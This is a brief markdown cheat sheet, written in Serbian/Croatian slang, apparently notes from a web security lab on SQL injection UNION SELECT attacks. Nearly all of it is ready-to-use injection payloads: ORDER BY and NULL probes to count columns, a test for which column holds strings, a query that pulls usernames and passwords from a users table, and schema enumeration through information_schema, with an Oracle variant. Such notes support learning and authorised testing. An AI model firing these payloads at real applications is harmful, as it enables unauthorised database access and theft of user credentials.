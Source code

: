 # SQL injection

## UNION SELECT napad

### Skontaš broj kolona
```sql
' ORDER+BY+3--
```
ili
```sql
'+UNION+SELECT+NULL,NULL--
```
(kod Oracle MORA 'SELECT .. FROM DUAL')
dok ne potrefiš broj kolona...

### Skontaš koja kolona je string (obično)

```sql
' UNION SELECT NULL,NULL,'a',NULL--
```

dok ne potrefiš koja kolona paše.. :)

### UNION SELECT
```sql
' UNION SELECT username, password FROM users--
```

### Browsing the db schema

'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
--> users_lqlezz npr

'+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_lqlezz'--
--> username_jyfedi,password_fxqtrq

' UNION SELECT username_jyfedi,password_fxqtrq FROM users_lqlezz--

ORACLE:
all_tables i all_tab_columns


